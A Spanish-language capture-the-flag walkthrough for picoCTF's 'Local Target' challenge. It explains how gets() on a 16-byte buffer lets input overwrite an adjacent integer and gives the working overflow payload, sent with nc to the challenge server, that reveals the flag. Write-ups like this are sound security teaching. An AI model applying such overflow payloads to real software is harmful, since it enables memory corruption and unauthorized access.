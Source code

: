 # Local Target

El ejercicio nos proporciona un binario y su correspondiente código fuente.

Si ejecutamos el binario, observamos que solicita una cadena de texto y nos informa que `num = 64`:

```bash
./local-target
Enter a string: hola

num is 64
Bye!
```

En el código fuente, podemos identificar la parte clave donde ocurre todo:

```c
int main(){
  FILE *fptr;
  char c;

  char input[16]; // Input: una cadena de 16 caracteres
  int num = 64;
  
  printf("Enter a string: ");
  fflush(stdout);
  gets(input);  // GETS: función peligrosa
  printf("\n");
  
  printf("num is %d\n", num);
  fflush(stdout);
  
  if( num == 65 ){   // Si num es 65, imprime la flag
    printf("You win!\n");
    fflush(stdout);
    // Abrir archivo
    fptr = fopen("flag.txt", "r");
    if (fptr == NULL)
    {
        printf("Cannot open file.\n");
        fflush(stdout);
        exit(0);
    }
```

Podemos intentar realizar un _buffer overflow_ para sobrescribir la variable `num` gracias al uso de `gets(input);`, una función notoriamente insegura.

Como el objetivo es cambiar `num` a 65 y esta variable es de tipo `int`, podemos intentar alcanzarla en la memoria usando un _payload_ como `555555555555` seguido de una `A`, ya que la letra mayúscula `A` en ASCII equivale a 65.

Tanteando el _offset_ hasta la variable, descubrimos que el siguiente _payload_ logra el cometido:

```bash
nc saturn.picoctf.net 56595
Enter a string: 555555555555555555555555A

num is 65
You win!
picoCTF{SECRET}
```

¡Tenemos la flag!
